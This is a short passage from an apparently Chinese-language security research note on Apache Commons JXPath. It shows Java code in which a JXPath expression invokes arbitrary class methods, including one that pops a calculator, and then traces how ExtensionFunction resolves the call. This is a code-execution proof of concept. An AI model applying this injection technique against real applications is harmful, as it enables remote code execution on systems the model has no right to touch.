 ```java
    JXPathContext context = JXPathContext.newContext(null);
    String new_code = "com.example.first.dog.new(\"taco\", 18)";
    String static_code = "com.example.first.dog.evil(\"calc\")";
    Object o = context.getValue(new_code);
    System.out.println(o);
    context.getValue(static_code);
}

// Constructor Called
// dog{name='taco', age=18}
// calc pop!
```

下面看一下JXPath是怎么解析并调用函数的

`org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue`

![image-20230423090955881](../.gitbook/assets/image-20230423090955881.png)

`name`包括全类名和方法名，再加上参数类型，就能定位到类方法
